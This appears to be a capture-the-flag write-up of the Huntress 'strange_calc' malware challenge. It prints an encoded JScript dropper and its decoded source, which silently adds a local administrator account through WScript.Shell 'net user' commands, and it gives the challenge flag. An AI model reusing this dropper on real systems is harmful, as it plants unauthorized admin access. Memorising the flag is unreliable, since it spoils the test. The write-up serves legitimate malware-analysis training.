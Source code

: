 2024-11-13 07:45

Status: #completed_huntress_CTF

Tags: [[huntressctf]] [[solved]] [[malware]] [[obfuscation]] [[ctf]] [[Cyber Security]] [[cyber security awareness month]] 

# strange_calc
Strange Calc is malware challenge for the first day of the Huntress CTF. This challenge isn't overly complicated, but I made it harder than it needed to be, though for this being my first official CTF I'm not bothered by how I made it more complex. 
We start by prepping the file onto our Malware Analysis VM
1. Enable SSH on our kali and Malware Analysis VM
2. Move the file from the kali VM to the malware Analysis VM
3. Extract the contents of the 7z archive with the password strange_calc
Now that our file is staged and ready to go, lets take a snapshot of our VM to ensure we can recover back to where we were in the event we need to. 
4. Take snapshot of VM
5. We'll start with the basics, and run strings on the .exe 
Strings didn't really give us anything of use, so we can move on, next we can run Detect it Easy and see that this file is packed with UPX, we could unpack this if we feel that disassembly is necessary, but I am really bad with reverse engineering so lets see what we can figure out without having to do that.
6. Ran Detect it Easy
From this point we don't know much about the executable, but we took a snapshot already so lets see what happens when we run it. 
Before running the [[Malware]] I am going to run [[RegShot]] to take an initial backup of the registry, and then run [[Process Explorer]] and [[Process Monitor]] 
7. Start up Regshot and take 1st shot of the Registry
8. Start up Process Explorer and Process Monitor
9. Filter Process Monitor to look for things done by our calc.exe 
Now that we have done all of this lets run this application.
When we run the calc.exe as administrator, it states that it failed to open the calculator and creates a .jse file with an odd name. It looks like the application also created a new user labeled Administrator on the system that's kind of neat. 
Since a user was created I first changed that user's password and logged into just to see if maybe this specific user could run the calc.exe program. 

After messing around with this newly created user and finding that it's just a blank empty new account, didn't create any files on this user's profile or anything I decided to go back and look at the javascript file that was created.

```#@~^cQMAAA==W!x^DkKxPm`(b	7l.P1'EEBN'( /aVkDcE-	J*iWW.c7l.Px!p+@![cV+ULDtI+3Q*	-mD,0'9$DRM+2VmmncJ7-kQu'/_f&L~EB*ir0cWckUNar6`E8okUE*'x'Zk-0 bx9+6}0vE+	NE#{'xT-u0{x'rJ#1GUYbx!+I\C.,ox`6 m4l./KN+)Ov!bO2+*[2i6WDv\m.P4'qi4@!W ^+xTOtpt_{*b	b0vtQ&@*x6Rs+	LY4#8.l3I-mD~k{c6R^4lMZW9+zO`4#R&y#'2~L{c0cmtm./W9+zYctQq*Of *'v2~Vxv0R^4mD/W9nzYc4_y#O2 *'v2~s'v0 ^4lD;GNbYv4Q&*O2 b[fpmQ'UODbxL 6DWh/4l.ZK[`cb@!@! #-`N@*@*W#bib0c43 @!6 VxoD4RF*m3'jY.r	o 0MG:;tC.;WNncv`%[8X*@!@!W#-`3@*@*yb#pkW`4_f@!6RVUoDtO8b^_{?DDrxL 6DG:;4lMZG[``cVL&b@!@!*us*8)D+DEMUP1RdE(/O.bxovT~T#87C.Ps'r4norU,v*c,R-	M1o5b,	JIRf`"1w`]Bvub,;^qR&{2S.Of0/v(,[@!(c&"zR!I~qKM-U|'xnx9Ei7l.~	'lch*i-lM~K',rxYP!/.PdW^l^b[hbxkkODmYWM~E_	_rP&l[[r~ExOP^W^C^oDG;aPCNsr	kdDDmYWM/,JW1lsb9:rUb/YMCYKDPJC[Nr~rmCV^ 6nJYI\mD~2{x+A~zmOk7nor8N+1Y`EU^DbwORUtns^B#pWWM`\m.~;{!p;@!W sxLY4RFp;QQ*	w ]!xcW]5Y~TB0mV/#)2R"EU`K$+DBF~6CVk+#p4RABAA==^#~@```

This file looks like gibberish but that makes some sense since it is encrypted. So lets copy that entire jse into [[CyberChef]] and see if that detects anything about the file. 

It almost immediately says we can decode this with Microsoft Script Decoder so let's see what it looks like after decoding 

```function a(b){var c="",d=b.split("\n");for(var e=0;e<d.length;e++){var f=d[e].replace(/^\s+|\s+$/g,'');if(f.indexOf("begin")===0||f.indexOf("end")===0||f==="")continue;var g=(f.charCodeAt(0)-32)&63;for(var h=1;h<f.length;h+=4){if(h+3>=f.length)break;var i=(f.charCodeAt(h)-32)&63,j=(f.charCodeAt(h+1)-32)&63,k=(f.charCodeAt(h+2)-32)&63,l=(f.charCodeAt(h+3)-32)&63;c+=String.fromCharCode((i<<2)|(j>>4));if(h+2<f.length-1)c+=String.fromCharCode(((j&15)<<4)|(k>>2));if(h+3<f.length-1)c+=String.fromCharCode(((k&3)<<6)|l)}}return c.substring(0,g)}var m="begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";var n=a(m);var o=["net user LocalAdministrator "+n+" /add","net localgroup administrators LocalAdministrator /add","calc.exe"];var p=new ActiveXObject('WScript.Shell');for(var q=0;q<o.length-1;q++){p.Run(o[q],0,false)}p.Run(o[2],1,false);```

This script is pretty interesting, it does some deobfuscation and then we can see that it does create a new local Administrator which we did notice prior. 
The important looking piece to me is that variable m
We could tear down the rest of the script and see how it manipulates the variable m
Though the start piece of begin 644 is an indicator that this is using [[UUencoding]]
So lets throw that variable in CyberChef and bake it using From [[Base64]] change the alphabet to UUencoding and deselect the box to remove non-alphabet characters
This will give us our flag.
```flag{9922fb21aaf1757e3fdb28d7890a5d93}```
## Keywords


# Resources

# References